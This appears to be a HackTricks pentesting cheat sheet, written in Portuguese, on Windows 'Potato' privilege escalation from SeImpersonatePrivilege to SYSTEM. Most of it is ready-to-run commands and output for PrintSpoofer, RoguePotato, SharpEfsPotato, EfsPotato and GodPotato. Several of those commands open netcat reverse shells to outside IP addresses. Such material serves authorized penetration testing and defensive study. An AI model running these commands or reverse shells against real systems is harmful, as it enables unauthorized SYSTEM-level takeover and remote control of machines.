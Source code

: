 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato

{{#include ../../banners/hacktricks-training.md}}

> [!WARNING] > **JuicyPotato não funciona** no Windows Server 2019 e no Windows 10 build 1809 em diante. No entanto, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato)**,** [**EfsPotato**](https://github.com/zcgonvh/EfsPotato)**,** [**DCOMPotato**](https://github.com/zcgonvh/DCOMPotato)** podem ser usados para **aproveitar os mesmos privilégios e obter acesso ao nível `NT AUTHORITY\SYSTEM`\*\*. Este [post de blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) aprofunda-se na ferramenta `PrintSpoofer`, que pode ser usada para abusar de privilégios de impersonação em hosts Windows 10 e Server 2019 onde o JuicyPotato não funciona mais.

## Demonstração Rápida

### PrintSpoofer
```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```
### RoguePotato
```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```
### SharpEfsPotato
```bash
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
SharpEfsPotato by @bugch3ck
Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\temp>type C:\temp\w.log
nt authority\system
```
### EfsPotato
```bash
> EfsPotato.exe "whoami"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: NT Service\MSSQLSERVER
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=aeee30)
[+] Get Token: 888
[!] process with pid: 3696 created.
==============================
[x] EfsRpcEncryptFileSrv failed: 1818

nt authority\system
```
### GodPotato
```bash
> GodPotato -cmd "cmd /c whoami"
# You can achieve a reverse shell like this.
> GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### DCOMPotato

![image](https://github.com/user-attachments/assets/a3153095-e298-4a4b-ab23-b55513b60caa)

## Referências

- [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
- [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
- [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)
- [https://github.com/zcgonvh/DCOMPotato](https://github.com/zcgonvh/DCOMPotato)

{{#include ../../banners/hacktricks-training.md}}
